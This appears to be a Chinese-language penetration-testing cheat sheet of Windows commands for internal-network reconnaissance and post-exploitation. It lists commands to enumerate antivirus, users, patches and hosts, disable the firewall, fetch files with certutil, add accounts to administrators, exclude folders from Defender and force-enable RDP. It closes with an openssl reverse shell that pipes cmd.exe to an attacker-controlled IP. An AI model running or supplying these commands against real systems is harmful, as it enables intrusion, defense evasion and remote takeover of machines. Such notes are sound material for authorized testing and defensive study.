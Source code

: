 # Windows内网信息搜集

参考：
- [浅析内网信息收集](https://xz.aliyun.com/t/8291)


### 网络配置
```
ipconfig /all
```

### 操作系统信息/英文
```
systeminfo | findstr /B /C:"OS 名称" /C:"OS 版本"
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

### 查看杀毒软件信息
```
wmic /namespace:\\root\securitycenter2 path antivirusproduct GET displayName,productState, pathToSignedProductExe
displayName              pathToSignedProductExe                                          productState
Windows Defender         windowsdefender://                                              393488
金山毒霸铠甲防御         c:\program files (x86)\kingsoft\kingsoft antivirus\kxetray.exe  331776
金山毒霸铠甲防御         c:\program files (x86)\kingsoft\kingsoft antivirus\kxetray.exe  331776
ESET Endpoint Antivirus  C:\Program Files\ESET\ESET Endpoint Antivirus\ecmd.exe          266256
```

### 查看计划任务信息
```
schtasks  /query  /fo  LIST /v
```

### 查看用户列表
```
net user
```

### 查看当前在线用户
```
query user || qwinsta
```


### 查看端口开放信息
```
netstat –ano
```

### 查看补丁信息
```
systeminfo
```

或者
```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

### 在某目录下的某些后缀文件中查找某文件内容
```
findstr /s /n /i /c:"class WebPage" "D:\xxx\yyy\*.cs"
```
### Windows下查看IIS的各个网站的目录以及配置信息
```
appcmd list site /config
C:\Windows\SysWOW64\inetsrv\appcmd.exe list site /config
```

### 查看防火墙信息
```
netsh firewall show config
```

### 关闭防火墙
Windows server 2003系统及以前版本，命令如下：
```
netsh firewall set opmode disable
```
Windows server 2003之后系统版本，命令如下：
```
netsh advfirewall set allprofiles state off
```

### 下载文件到某目录
```
certutil.exe -urlcache -split -f "https://www.baidu.com/" C:\baidu.txt
```

### ICMP探测内网
```
for /L %I in (1,1,254) DO @ping -w 1 -n 1 192.168.85.%I | findstr "TTL="
```

### 根据时间查看目录下的文件
```
dir /o:d
```

### 将自己加入管理员
```
net localgroup administrators domain\username /add
```

### Defender排除某个目录：
powershell -ExecutionPolicy Bypass Add-MpPreference -ExclusionPath "C:\Users\admin\Downloads"

### Openssl.exe反弹shell：
攻击者：
```
D:\Git\usr\bin\openssl.exe req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes #生成证书
D:\Git\usr\bin\openssl.exe s_server -quiet -key key.pem -cert cert.pem -port 80 #命令输入
D:\Git\usr\bin\openssl.exe s_server -quiet -key key.pem -cert cert.pem -port 443 #命令输出
```
被控端：
```
D:\Git\usr\bin\openssl.exe s_client -quiet -connect IP:80|cmd.exe|D:\Git\usr\bin\openssl.exe s_client -quiet -connect IP:443
```

### Windows10下开启Telnet命令：

```
开启
dism /online /Enable-Feature /FeatureName:TelnetClient
关闭
dism /online /Disable-Feature /FeatureName:TelnetClient
```


### 开启RDP
```
wmic RDTOGGLE WHERE ServerName='自己的hostname' call SetAllowTSConnections 0   //先关闭rdp
netsh advfirewall firewall add rule name="RDP7" protocol=TCP dir=in localport=3389 action=allow
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp" /v "portnumber" /t REG_DWORD /d "3389" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v "portnumber" /t REG_DWORD /d "3389" /f
wmic RDTOGGLE WHERE ServerName='自己的hostname' call SetAllowTSConnections 1  //再开启rdp
```
